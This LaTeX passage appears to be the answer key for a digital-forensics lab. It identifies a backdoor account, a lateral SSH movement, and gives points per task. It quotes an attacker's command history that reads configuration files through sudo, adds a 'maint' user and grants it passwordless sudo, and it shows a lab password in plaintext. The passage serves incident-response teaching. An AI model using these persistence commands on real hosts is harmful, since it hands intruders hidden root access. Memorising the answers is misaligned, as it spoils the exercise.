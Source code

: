 \documentclass[a4paper, 12pt]{article}
\begin{document}
\section{Task 3 --- Persistence \& Post-Exploitation (3 points)}

\textbf{Backdoor account:} \texttt{maint} (UID 1003)\\
\textbf{Privileges:} \texttt{NOPASSWD: ALL} via \texttt{/etc/sudoers.d/maint}

Key log lines:
\begin{lstlisting}
Apr 24 03:19:15 helix-web useradd[2041]: new user: name=maint,
  UID=1003, GID=1003, home=/home/maint, shell=/bin/bash
\end{lstlisting}

Full attacker command history (\texttt{/home/devops/.bash\_history}):
\begin{lstlisting}[language=bash]
id
whoami
sudo /usr/bin/find / -name "*.conf" -exec cat {} \;
useradd -m maint
echo "maint ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/maint
chmod 440 /etc/sudoers.d/maint
exit
\end{lstlisting}

\section{Task 4 --- Lateral Movement to helix-db (3 points)}

\textbf{Source IP:} \texttt{192.168.50.10} (helix-web internal IP)\\
\textbf{User:} \texttt{devops} (same compromised credentials --- password reuse)\\
\textbf{Time:} \texttt{03:21:03}

Key log line on \texttt{helix-db}:
\begin{lstlisting}
Apr 24 03:21:03 helix-db sshd[987]: Accepted password for devops
  from 192.168.50.10 port 51234 ssh2
\end{lstlisting}

\begin{lstlisting}[language=bash]
# Student pivot from helix-web:
ssh analyst@192.168.60.10   # An@lyst2024
grep 'Accepted' /var/log/auth.log
\end{lstlisting}

\section{Task 5 --- Data Exfiltration Evidence (3 points)}
\end{document}
